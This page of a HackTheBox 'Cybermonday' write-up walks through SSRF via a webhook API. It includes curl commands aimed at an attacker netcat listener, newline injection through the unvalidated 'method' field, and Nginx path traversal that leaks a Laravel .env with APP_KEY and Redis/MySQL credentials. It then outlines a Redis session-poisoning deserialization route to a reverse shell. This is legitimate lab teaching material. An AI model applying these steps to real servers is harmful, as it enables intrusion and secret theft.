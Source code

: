 # Obtaining More Info

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
**[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)**
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have the ability to [[ssrf|make the web server send requests for us]], the question is what to do with it. The first thing to try would be to [[local-file-inclusion|get files on the system]]:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "file://etc/passwd", "method": "GET"}' -v

{"status":"error","message":"Only http protocol is allowed"}
```

Not going to be that easy unfortunately. With us only being able to make [[http|HTTP]] requests, the use right now seems limited. Let's use a [[netcat|`netcat`]] listener and send some requests to see what info the webhook is sending.
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "GET"}' -v

GET / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Hmm, not much to go on here. What about a `POST`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "POST"}' -v

POST / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Still very little. Well we've already tried messing around with the `url` with no luck but what about the `method`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "HMM"}' -v

HMM / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

I don't think `HMM` is a valid HTTP verb (though there are a lot more than you might think). So we can assume the `method` is not being validated, but how far does this go?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "TEST\ntest 2"}' -v

TEST
test 2 / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Okay, so now we have a way to send data to locations only the server can access. But what can we actually do with this? To figure that out lets first return to the Cybermonday shopping site. Now that we know it's running on [[laravel|Laravel]] we know there's a `.env` file that might contain some useful information. If we look at the headers we also know that the store is running behind an [[nginx|Nginx]] proxy server, which can often be misconfigured to allow for [[path-traversal|path traversal]]. Trying to use this on most paths just results in Laravel receiving the request and providing a `404` response. However if we look at the URL for some of the static images on the site we see there's also an `assets` path available. If you used [[gobuster|`gobuster`]] when first browsing the site you might have also found this directory. Navigating to the directory itself gives us an Nginx `403` message rather than a Laravel `404` which is promising. If we try the path traversal here: 
```
http://cybermonday.htb/assets../.env

APP_NAME=CyberMonday
APP_ENV=local
...
```

We now have an environment file with some very interesting information in it. Among this information is the Laravel `APP_KEY`, and information on both the [[redis|Redis server]] and [[mysql|MySQL server]] this app connects to.

As we can only send data with the webhook and not receive it without a valid HTTP response, the MySQL information is probably not going to be very useful, however Redis has a much [[redis#RESP|simpler protocol]] that doesn't require a back and forth to update information and settings. If you'd like to know more about it you can [read about the Redis RESP protocol here](https://redis.io/docs/reference/protocol-spec/). You might have noticed in the Laravel debug information from the profile page that the app is making use of [[session-poisoning|sessions]]. These sessions will be stored in the Redis server, so if we can find a way to inject a [[php|PHP]] [[deserialization|deserialization]] attack payload into the Redis server, we could potentially have a way to perform [[rce|RCE]] and gain a [[reverse-shell|reverse shell]].

Next: [Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)